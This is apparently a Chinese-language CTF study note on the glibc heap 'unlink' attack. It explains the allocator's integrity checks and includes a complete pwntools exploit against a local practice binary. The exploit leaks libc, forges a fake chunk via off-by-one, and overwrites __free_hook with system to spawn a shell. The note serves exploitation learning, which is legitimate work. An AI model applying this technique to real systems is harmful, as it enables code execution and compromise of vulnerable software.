


# unlink

## 1.基本原理

假设正常情况下，每申请一个 chunk 会保存一个指向该 chunk 内存块的指针



通常情况下我们使这个 chunk 的大小为 smallchunk，这样就不会进入 fastbin 和进行 largebin 的第三项安全检查

* 安全检查 1：大小检查
  * 要将 chunk2 的 prev_size 修改成 fake chunk 的 size
  * 或者将 size 和 prev_size 修改为 0 。不过 glibc-2.29 起多了对 size 和 prev_size 的检查，改为 0 失效

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
  malloc_printerr ("corrupted size vs. prev_size");               \
```

* 安全检查 2：双向链表完整性检查
  * fakeFD -> bk == P1 <=> *(&fakeFD + 0x18) == P1 <=> *fakeFD == &P1 - 0x18
  * fakeBK -> fd == P1 <=> *(&fakeBK + 0x10) == P1 <=> * fakeBK == &P1 - 0x10

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

* 安全检查 3：largebin 中 next_size 双向链表完整性检查 
  * fake chunk 大小应在 small bin 范围

```c
if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
  malloc_printerr ("corrupted double-linked list (not small)");
```

* 为了能使得 chunk2 与 fake chunk 合并，chunk2 的 size 的 PREV_INUSE 位 为 0 ，且 chunk2 的大小不能在 fast bin 范围


在 int_free 中：也就是说 p 是 free 的前一个 chunk，而前一个 chunk 是根据其 prevsize 计算的

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  unlink(av, p, bck, fwd);
}
```

而 unlink 的主要功能是：

```c
FD = P->fd;								      
BK = P->bk；
FD->bk = BK;							      
BK->fd = FD;
```


## 2.利用思路



* 伪造 fakechunk
  * fakechunk 要能覆盖到下一个 chunk 的 prev_size 和 size 的一字节（要有 off by one）（覆盖 size 最后一字节后，要确保 size 大小不会发生变化，因为我们只是想覆盖掉 PREV_INUSE ）
  * fd 和 bk 分别指向伪造地址
* free P2 后，P2 会和 P1 发生合并，同时 FD-> bk = BK; BK-> fd = FD; 由于 FD-> bk 和 BK-> fd 都指向的是 P1，所以 P1 最后会指向 FD（上图中也就是指针数组头，返回的是用户空间 mem）

漏洞程序参考 unsortedbin leak 的测试程序

exp：

```py
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test'
elf = ELF(elf_path)
libc = ELF('/home/ubuntu/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(3, 0x100)
add_chunk(4, 0x1f8)
add_chunk(5, 0x100)

# leak libc
delete_chunk(3)
add_chunk(3, 0x100)
show_chunk(3)
main_arena_addr = u64Leakbase(0)
li("main_arena_addr", main_arena_addr)
libc_addr = main_arena_addr - 0x3c4b78
libc.address = libc_addr
li("libc_addr", libc_addr)

payload = b""
payload += p64(0)
payload += p64(0x101)
payload += p64(elf.sym["chunklist"])
payload += p64(elf.sym["chunklist"] + 8)
payload = payload.ljust(0x100 , b"0")
payload += p64(0x100)
payload += p8(0)

edit_chunk(3, payload)
delete_chunk(4)

edit_chunk(5, b"/bin/sh\x00")
edit_chunk(3, p64(libc.sym["__free_hook"]))
edit_chunk(0, p64(libc.sym["system"]))
delete_chunk(5)
it()
```

这里通过像数组链表首个元素写入 `__free_hook` 的地址，并且向 `__free_hook` 中写入 hook 替换的函数 `system`，释放 chunk5 后，mem 中的内容会作为参数传递给 hook 替换的函数

同时，还可以利用 got 写入完成利用

```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }
```

【】
